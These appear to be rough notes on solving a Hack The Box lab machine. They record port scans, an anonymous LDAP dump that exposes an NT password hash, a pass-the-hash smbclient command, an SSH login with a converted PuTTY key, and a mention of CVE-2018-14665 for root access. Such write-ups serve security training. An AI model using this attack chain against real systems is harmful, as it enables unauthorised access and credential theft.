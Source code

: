 10.10.10.107

80/tcp  open  http        OpenBSD httpd
# Attempted connection to 10.10.10.107:80. But connections are refused.

# I think the OS is OpenBSD

389/tcp open  ldap        (Anonymous bind OK)

# What is ldap adn what can it do?

# Lightweight Directory Access Protocol

# Running
>>> nmap -p 389 --script ldap-search 10.10.10.107

# Gives

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search: 
|   Context: dc=hackthebox,dc=htb
|     dn: dc=hackthebox,dc=htb
|         dc: hackthebox
|         objectClass: top
|         objectClass: domain
|     dn: ou=passwd,dc=hackthebox,dc=htb
|         ou: passwd
|         objectClass: top
|         objectClass: organizationalUnit
|     dn: uid=bob8791,ou=passwd,dc=hackthebox,dc=htb
|         uid: bob8791
|         cn: Bob
|         objectClass: account
|         objectClass: posixAccount
|         objectClass: top
|         userPassword: {BSDAUTH}bob8791
|         uidNumber: 5001
|         gidNumber: 5001
|         gecos: Bob
|         homeDirectory: /home/bob8791
|         loginShell: /bin/ksh
|     dn: uid=alice1978,ou=passwd,dc=hackthebox,dc=htb
|         uid: alice1978
|         cn: Alice
|         objectClass: account
|         objectClass: posixAccount
|         objectClass: top
|         objectClass: sambaSamAccount
|         userPassword: {BSDAUTH}alice1978
|         uidNumber: 5000
|         gidNumber: 5000
|         gecos: Alice
|         homeDirectory: /home/alice1978
|         loginShell: /bin/ksh
|         sambaSID: S-1-5-21-3933741069-3307154301-3557023464-1001
|         displayName: Alice
|         sambaAcctFlags: [U          ]
|         sambaPasswordHistory: 00000000000000000000000000000000000000000000000000000000
|         sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
|         sambaPwdLastSet: 1532916644
|     dn: ou=group,dc=hackthebox,dc=htb
|         ou: group
|         objectClass: top
|         objectClass: organizationalUnit
|     dn: cn=bob8791,ou=group,dc=hackthebox,dc=htb
|         objectClass: posixGroup
|         objectClass: top
|         cn: bob8791
|         userPassword: {crypt}*
|         gidNumber: 5001
|     dn: cn=alice1978,ou=group,dc=hackthebox,dc=htb
|         objectClass: posixGroup
|         objectClass: top
|         cn: alice1978
|         userPassword: {crypt}*
|         gidNumber: 5000


|     dn: sambadomainname=ypuffy,dc=hackthebox,dc=htb
|         sambaDomainName: YPUFFY
|         sambaSID: S-1-5-21-3933741069-3307154301-3557023464
|         sambaAlgorithmicRidBase: 1000
|         objectclass: sambaDomain
|         sambaNextUserRid: 1000
|         sambaMinPwdLength: 5
|         sambaPwdHistoryLength: 0
|         sambaLogonToChgPwd: 0
|         sambaMaxPwdAge: -1
|         sambaMinPwdAge: 0
|         sambaLockoutDuration: 30
|         sambaLockoutObservationWindow: 30
|         sambaLockoutThreshold: 0
|         sambaForceLogoff: -1
|         sambaRefuseMachinePwdChange: 0
|_        sambaNextRid: 1001


# Noticed that we gain a hash of a password:

>>> sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B

# This can be used in a pass the hash attack

>>> 0b186e661bbdbdcf6047784de8b9fd8b

By using:

>>> smbclient \\\\10.10.10.107\\alice -U alice1978 --pw-nt-hash

You can use the hash as the password!!

# The directory gives us a .ppk private key than can be converted to OpenSSH key using 
  puttygen


# This allows us to connect using

>>> ssh -i pk.key alive1978@10.10.10.107


# PRIV ESC 

# Weird '+' super user?

# Using CVE-2018-14665 we can gain root privleges on an OpenBSD System